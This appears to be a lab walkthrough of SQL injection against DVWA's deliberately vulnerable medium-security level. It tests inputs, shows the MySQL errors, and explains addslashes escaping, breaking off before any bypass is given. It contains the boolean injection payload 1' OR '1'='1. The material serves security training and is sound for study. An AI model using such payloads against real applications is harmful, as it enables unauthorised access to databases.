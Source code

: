 **Step 1**: Test for Basic Injection

- In the input box, type:
    ```
    1
    ```
    Click Submit.

- You get:
    ```
    ID: 1
    First name: admin
    Surname: admin
    ```

- This means:
    ```sql
    SELECT first_name, last_name FROM users WHERE user_id = 1;
    ```

**Step 2**: Test for Syntax Error

- Try this:
    ```
    '
    ```

- We get an SQL error:
    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1
    ```
- This confirms the input is directly inserted into a SQL query — it's injectable!

**Step 3**: Bypass the Logic with Boolean Injection

- Tested:
    ```
    1' OR '1'='1
    ```

- This produced an error: 
    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' OR \'1\'=\'1' at line 1
    ```
- Why? 
    - The `'` characters are being escaped to `\'`
    - This is part of DVWA's medium-level defense, which tries to sanitize user input

- On Low security, this should work.
- On Medium, some escaping is in place — so we need to evade the escaping.

**Solution:** Try Bypassing Escaping 

- On Medium, DVWA uses:
    ```php
    $id = addslashes($_GET['id']);
    ```
    So `'` becomes `\'`, breaking SQL.

